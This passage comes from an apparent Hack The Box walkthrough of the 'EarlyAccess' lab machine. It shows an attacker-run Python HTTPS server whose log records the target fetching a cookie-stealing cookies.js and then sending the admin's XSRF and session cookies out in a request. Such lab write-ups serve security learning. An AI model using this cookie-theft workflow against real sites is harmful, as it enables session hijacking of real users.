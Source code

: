 ```sh
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

Now start the Python HTTPS server:

```sh
┌──(root💀kali)-[~/htb/earlyaccess]
└─# python3 https-server.py
```

Then switch back to the box and send another message just like before:

![earlyaccess-message](/assets/images/2022-01-30-22-18-24.png)

## Admin Cookie Stealer

Wait a few minutes and if all goes to plan we see the box make contact, our cookie stealing Javascript file is pulled back to the box and it returns the admin user cookie to us:

```sh
┌──(root💀kali)-[~/htb/earlyaccess]
└─# python3 https-server.py
10.10.11.110 - - [30/Jan/2022 22:11:16] "GET /cookies.js HTTP/1.1" 200 -
10.10.11.110 - - [30/Jan/2022 22:11:26] code 404, message File not found
10.10.11.110 - - [30/Jan/2022 22:11:26] "GET /XSRF-TOKEN=eyJpdiI6IllUeTdhNWk5eDVCK3Y5WkJMTUlaOVE9PSIsInZhbHVlIjoiTVRmL3dVakpvbG54Z3Zkb1JHOTlFbVlLUFcxYVd0Q0NacThtTUVCdXpFbzcvaHE2Z0lJOEpLV1RiUkFKeHNTaC9UbW1IeVBodHQ3UEtFYXRDNVZxdzdvL0pGYmkrQmdnT2hmc2ptOTVvOGpjUzhmQk9Ja29XWGIwNnJXZ3EzK0YiLCJtYWMiOiJmNjZjZDg2ZWNkOWY3MTE1Njc3YWFjNGFkNmI0MDQ5ZjIxMzBjMWQ2NzNlNjVjNjhlMWMyMTI4NmFkMmVkMWZiIn0%3D;%20earlyaccess_session=eyJpdiI6IjV3Ly9ZTE5VQk5ERmhOTkVUbXZJQnc9PSIsInZhbHVlIjoia3JTTmJnYVo4amV3RkVSTFlUR3pxYVR5RVhjc0pwNU9ZWXlFdCtTdkpoUFRnU04wQUZjcHB5QWo0VFpRK3JFZ21lYS9IME1BQnN4MU5JSGVDVXBpWWhjbmM5VDJxZ0ZHZkEzL3h0cTZEUzViOFRaQWJuNzBUYmo5RzVSL1N4UVEiLCJtYWMiOiI3ODg2NzVjNTliM2IzYzBmYThlYTI0YTk2MmE4MDIzZDNjNWNiZWYxNGM2OGU3NzlmODdhZTMzNjY2NjI5YzA2In0%3D HTTP/1.1" 404 -
```
